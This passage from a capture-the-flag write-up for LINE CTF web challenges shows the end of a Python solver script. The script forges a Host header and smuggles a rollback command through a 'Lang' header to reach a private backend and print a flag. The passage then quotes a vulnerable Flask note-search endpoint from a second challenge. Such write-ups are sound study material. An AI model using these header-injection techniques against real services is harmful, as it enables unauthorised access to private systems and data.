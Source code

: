```py
    return requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                        headers={
                            'Host': PRIVATE_HOST,
                            'Lang': f'rollback?dbhash={add_prefix(dbHash, FRAGMENT)}',
                            'Key': key,
                            'Sign': sign
                        })

def exploit():
    execute_download(f'<https://lab.8ay.ac/{get_db_hash>()}')
    res = execute_rollback(get_db_hash())

    print(f'flag: {res.headers["lang"]}')

if __name__ == "__main__":
    exploit()

```

### Flag

`LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}`

## [Web 50pts] Your Note (22/680 Solves)

### Problem

```txt
Secure private note service
※ Admin have disabled some security feature of their browser...

Flag Format: LINECTF{[a-z0-9-]+}

添付ファイル: your-note.zip
```

### Writeup

The next part of the `GET /search` source code looked suspicious.

```py
@app.route('/search')
@login_required
def search():
    q = request.args.get('q')
    download = request.args.get('download') is not None
    if q:
        notes = Note.query.filter_by(owner=current_user).filter(or_(Note.title.like(f'%{q}%'), Note.content.like(f'%{q}%'))).all()
        if notes and download:
            return Response(json.dumps(NoteSchema(many=True).dump(notes)), headers={'Content-disposition': 'attachment;filename=result.json'})
    else:
        return redirect(url_for('index'))
    return render_template('index.html', notes=notes, is_search=True)
```


[^1]: I solved this with my teammate [@y0d3n](https://twitter.com/y0d3n).
[^2]: I feel that there is a relatively good way to put out a simple Writeup for the time being and give a detailed explanation at the review's timing.
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: I didn't investigate if we could issue other method requests because it was enough to get the flag if there was a GET request.
[^5]: After being forwarded, it may be normalized using `app.main.LanguageNomarize (request)`.
[^6]: `%` is a wildcard that represents a string of 0 or more characters
[^7]: Actually, the manual leak by teammate [@y0d3n](https://twitter.com/y0d3n) was faster, but from a privacy point of view, instead of his face photo, The Solver script by Python is posted.